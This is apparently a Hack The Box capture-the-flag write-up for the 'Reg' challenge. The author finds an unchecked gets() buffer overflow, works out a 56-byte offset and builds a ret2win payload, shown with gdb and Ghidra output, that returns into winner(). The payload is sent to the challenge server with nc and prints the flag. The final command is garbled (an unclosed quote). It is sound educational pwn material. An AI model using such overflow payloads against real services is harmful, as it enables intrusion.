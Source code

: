 # Reg Write-up

Love buffer overflow practices. Lets get started

```shell
╰─ file reg                                                                           ─╯
reg: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=134349a67c90466b7ce51c67c21834272e92bdbf, for GNU/Linux 3.2.0, not stripped

╰─ gdb -q ./reg                                                                       ─╯
Reading symbols from ./reg...
(No debugging symbols found in ./reg)
gdb-peda$ checksec
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

Get information with ghidra, found main function wich calls run function:

```code
undefined8 main(void)

{
  run();
  return 0;
}
```

run function has locat_38 48 char var and gets, gets function is bufferoverflow exposed.

```code
void run(void)

{
  char local_38 [48];
  
  initialize();
  printf("Enter your name : ");
  gets(local_38);
  puts("Registered!");
  return;
}
```
this function is not called on the code, so we never get it. The plan is use the gets buffer overflow, and pass return address from winner function after the offset. 

```code
void winner(void)

{
  char local_418 [1032];
  FILE *local_10;
  
  puts("Congratulations!");
  local_10 = fopen("flag.txt","r");
  fgets(local_418,0x400,local_10);
  puts(local_418);
  fclose(local_10);
  return;
}

```

Lets get adress memory from winner function, exactly 0x0000000000401207 where rbp is moved to rps:


```code
gdb-peda$ disassemble winner
Dump of assembler code for function winner:
   0x0000000000401206 <+0>:	push   rbp
   0x0000000000401207 <+1>:	mov    rbp,rsp
   0x000000000040120a <+4>:	sub    rsp,0x410
   0x0000000000401211 <+11>:	lea    rdi,[rip+0xdec]        # 0x402004
   0x0000000000401218 <+18>:	call   0x401030 <puts@plt>
   0x000000000040121d <+23>:	lea    rsi,[rip+0xdf1]        # 0x402015
   0x0000000000401224 <+30>:	lea    rdi,[rip+0xdec]        # 0x402017
   0x000000000040122b <+37>:	call   0x4010a0 <fopen@plt>
   0x0000000000401230 <+42>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401234 <+46>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401238 <+50>:	lea    rax,[rbp-0x410]
   0x000000000040123f <+57>:	mov    esi,0x400
   0x0000000000401244 <+62>:	mov    rdi,rax
   0x0000000000401247 <+65>:	call   0x401070 <fgets@plt>
   0x000000000040124c <+70>:	lea    rax,[rbp-0x410]
   0x0000000000401253 <+77>:	mov    rdi,rax
   0x0000000000401256 <+80>:	call   0x401030 <puts@plt>
   0x000000000040125b <+85>:	mov    rax,QWORD PTR [rbp-0x8]
   0x000000000040125f <+89>:	mov    rdi,rax
   0x0000000000401262 <+92>:	call   0x401040 <fclose@plt>
   0x0000000000401267 <+97>:	nop
   0x0000000000401268 <+98>:	leave
   0x0000000000401269 <+99>:	ret
End of assembler dump.
```

In this case we want to let it easy in order to get the basic concepts.

gets function is put it onside char local_38 [48]; try overflow with python string until we get offset:

Create flag file:
```shell
echo "GETSSSSSSS" > flag.txt 
```

Search manual offset with python:
```shell
 …  hackthebox  Reg  Files  python -c 'print("A"*60)' |./reg     SIGINT   main
Enter your name : Registered!
Segmentation fault (core dumped)
 …  hackthebox  Reg  Files  python -c 'print("A"*50)' |./reg   SIGSEGV   main 
Enter your name : Registered!
 …  hackthebox  Reg  Files  python -c 'print("A"*55)' |./reg              main 
Enter your name : Registered!
 …  hackthebox  Reg  Files  python -c 'print("A"*59)' |./reg              main 
Enter your name : Registered!
Segmentation fault (core dumped)
 …  hackthebox  Reg  Files  python -c 'print("A"*56)' |./reg   SIGSEGV   main 
Enter your name : Registered!
Illegal instruction (core dumped)
 …  hackthebox  Reg  Files  python -c 'print("A"*55)' |./reg 0  SIGILL   main 
Enter your name : Registered!
 …  hackthebox  Reg  Files  python -c 'print("A"*56)' |./reg              main 
Enter your name : Registered!
Illegal instruction (core dumped)
 …  hackthebox  Reg  Files             

```

Look at this, on 55 A string generated with python, no segment fault happen but It just happend on 56, so offset is 56.

We have offset (56) and address we want as return 0x0000000000401207 = \x07\x12\x40\x00, lets concatenate this two values with python and pipe to reg file:

```shell
python -c 'print("A"*56 + "\x07\x12\x40\x00")'|./reg Enter your name : Registered!Congratulations!
GETSSSSSSS
```

GREAT! but havent won yet! Lets try server side:

```shell
nc 161.35.38.187 31195              SIGINT   main 
Enter your name : jkdfls
Registered!
```

Do it the same python string as local file:
```shell
python -c 'print("A"*56 + "\x07\x12\x40\x00  nc 161.35.38.187 31195
Enter your name : Registered!
Congratulations!
HTB{N3W_70_pWn}
```

Voilà!


